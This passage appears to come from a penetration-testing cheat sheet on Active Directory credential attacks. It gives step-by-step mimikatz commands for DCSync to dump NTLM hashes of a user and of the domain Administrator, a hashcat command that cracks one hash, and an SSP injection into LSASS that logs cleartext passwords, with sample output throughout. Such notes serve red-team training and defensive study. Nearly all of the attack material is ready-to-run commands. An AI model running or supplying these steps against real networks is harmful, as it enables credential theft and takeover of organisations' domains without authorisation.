 For more info about this attack, see [here](../attacks/dcsync.md).

{% tabs %}
{% tab title="1. Extract NTML" %}
```powershell
mimikatz # lsadump::dcsync /user:corp\dave
...
SAM Username         : dave
NTLM Hash            : 08d7a47a6f9f66b97b1bae4178747494
LM Hash              : 45bc7d437911303a42e764eaf8fda43e
...
```
{% endtab %}

{% tab title="2. Crack NTML" %}
{% code overflow="wrap" %}
```bash
$ hashcat -m 1000 hashes.dcsync /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
...
08d7a47a6f9f66b97b1bae4178747494:Flowers1
```
{% endcode %}
{% endtab %}

{% tab title="3. DCSync" %}
```powershell
mimikatz # lsadump::dcsync /user:corp\Administrator
...
NTLM Hash: 2892d26cdf84d7a70e2eb3b9f05c425e
```
{% endtab %}
{% endtabs %}

### SSP Injection

For more info about this attack, see [here](broken-reference).

{% tabs %}
{% tab title="1. Inject malicious SSP into LSASS" %}
```powershell
mimikatz # misc::memssp
Injected =)
```
{% endtab %}

{% tab title="2. Intercept Creds" %}
```powershell
> type C:\Windows\System32\mimilsa.log
<SNIP>
[00000000:0066608e] CORP\Administrator  QWERTY123!@#
<SNIP>
```
{% endtab %}
{% endtabs %}
